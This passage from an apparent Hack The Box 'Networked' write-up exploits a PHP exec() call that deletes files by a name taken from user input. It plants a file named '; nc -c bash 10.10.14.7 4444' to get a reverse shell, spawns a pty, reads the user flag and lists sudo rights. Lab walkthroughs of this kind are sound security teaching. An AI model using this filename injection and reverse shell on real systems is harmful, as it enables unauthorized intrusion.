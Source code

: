 ```php
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
?>
```

Interesting! We can abuse the following line: 

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

`$value` has to be replaced by a malicious bash command beginning with `;` so that we can another command.

```bash
$ cd /var/www/html/uploads/
$ touch '; nc -c bash 10.10.14.7 4444'
```

![guly shell](/assets/img/htb/machines/linux/easy/networked/guly-bash.png)

## User (guly)

- Flag:

```bash
python -c "import pty; pty.spawn('/bin/sh');"  
sh-4.2$ cat user.txt
cat user.txt
526cfc2305f17faaacecf212c57d71c5
```

Let's run `sudo -l` with guly:

```bash
$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
$ ls -la /usr/local/sbin/changename.sh
-rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
```
